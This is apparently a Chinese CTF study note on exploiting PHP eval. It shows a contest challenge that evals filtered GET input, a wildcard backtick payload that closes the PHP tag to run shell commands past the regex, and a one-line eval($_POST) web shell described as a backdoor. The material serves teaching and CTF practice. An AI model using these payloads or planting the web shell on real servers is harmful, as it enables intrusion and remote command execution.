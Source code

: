 # eval

**参考：**

- https://www.anquanke.com/post/id/173201#h2-1

- https://www.cnblogs.com/iamstudy/articles/analysis_eval_and_assert.html

**函数构造：**

```php
eval ( string $code ) : mixed
```

## 利用1-闭合/开启php标签

安恒杯9月月赛web2

```php
<?php 
include 'flag.php';
if(isset($_GET['code']))
{
    $code=$_GET['code'];
    if(strlen($code)>35){
    die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code))
    {
        die("NO.");
    }
    @eval($code);
}
else
{
    highlight_file(__FILE__);
}
//$hint="php function getFlag() to get flag";
?>
```

eval执行`$code`代码，`$code`需要符合`preg_match`代码的正则匹配。我们可以通过eval函数的来闭合前半部分代码，重启后半部分代码。

**payload**：

```php
code=?><?=`/???/??? ????.???`?>
```

## 利用2-后门

**一句话木马**：

```php
<?php
eval($_POST['2']);
```

因为eval是一个语言构造器而不是一个函数，不能被 [可变函数](http://php.net/manual/zh/functions.variable-functions.php) 调用。

PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。

可变函数不能用于例如 [echo](http://php.net/manual/zh/function.echo.php)，[print](http://php.net/manual/zh/function.print.php)，[unset()](http://php.net/manual/zh/function.unset.php)，[isset()](http://php.net/manual/zh/function.isset.php)，[empty()](http://php.net/manual/zh/function.empty.php)，[include](http://php.net/manual/zh/function.include.php)，[require](http://php.net/manual/zh/function.require.php) 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。

